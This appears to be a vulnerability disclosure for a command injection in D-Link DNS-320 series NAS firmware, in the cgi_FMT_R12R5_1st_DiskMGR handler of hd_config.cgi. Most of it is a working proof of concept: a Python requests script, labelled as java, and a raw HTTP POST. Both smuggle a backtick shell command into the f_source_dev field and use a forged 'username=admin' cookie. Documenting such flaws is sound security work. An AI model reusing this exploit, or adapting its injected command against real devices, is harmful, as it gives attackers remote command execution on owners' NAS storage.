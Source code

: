 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_R12R5_1st_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_source_dev`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 25 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736336859-34e35f81-a523-4b42-9291-58eb430fa8ab.png#averageHue=%23fbfbfa&clientId=u4315ec68-5721-4&from=paste&height=284&id=u4f9fea3f&originHeight=284&originWidth=1142&originalType=binary&ratio=1&rotation=0&showTitle=false&size=54019&status=done&style=none&taskId=u3b9523a6-075d-4ce6-b0c6-e93b8235b3a&title=&width=1142)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_R12R5_1st_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/131`&f_file_system=1&f_newly_dev=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```java
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 120
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_R12R5_1st_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/131`&f_file_system=1&f_newly_dev=1
```

